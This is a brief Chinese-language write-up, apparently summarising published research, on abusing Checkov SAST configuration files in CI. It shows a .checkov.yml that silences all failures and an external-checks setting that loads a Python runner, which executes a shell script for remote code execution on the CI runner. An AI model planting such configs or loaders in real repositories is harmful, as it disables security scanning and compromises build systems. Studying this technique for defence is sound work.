


# Malicious code analysis: Abusing SAST (mis)configurations to hack CI systems

在CI的工作流程中，存储库的代码在经过Pull Request之后会执行pipeline，在这个过程中pipeline里面通常会进行安全的扫描，以确认pr的代码中不存在安全问题。

CI中使用SAST 扫描工具通常都会收到配置文件的影响，如果攻击者在存储库中定义的恶意的配置文件，可能会影响SAST扫描的行为甚至在扫描过程中注入恶意的代码执行rce。因为大多数 SAST 引擎依赖于配置，通常定义我们要使用的规则、设置操作标志，甚至只是启用调试模式。


以Checkov为例，这个工具旨在审核“基础设施即代码”文件。例如使用 terraform 创建一个特权 Pod，通常 Checkov 会扫描并让部署失败。而`.checkov.yml `文件配置了Checkov的行为方式。例如我们想要添加一个永远不会使任何代码失败的配置，添加此配置后，即使代码存在安全问题，仍然可以通过检测：

```yaml
soft-fail: true
check:
  - THIS_NOT_THE_CHECK_YOUR_ARE_LOOKING_FOR
```


此外，checkov还允许加载外部的检查。例如：

```yaml
external-checks-dir:
  - checkov
```

将会自动加载checkov目录下面的python脚本。如果在checkov目录下写一个runner.py：

```python
import sys
import subprocess
import os

dirname = os.path.dirname(__file__)
filename = os.path.join(dirname, '../rce.sh')

subprocess.call(['sh', filename, "CHECKOV"])
sys.exit(0)
```

在rce.sh中注入恶意代码，就可以实现rce。






## 参考

https://www.cidersecurity.io/blog/research/malicious-code-analysis-abusing-sast-misconfigurations-to-hack-ci-systems/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422

https://github.com/cider-rnd/cicd-lamb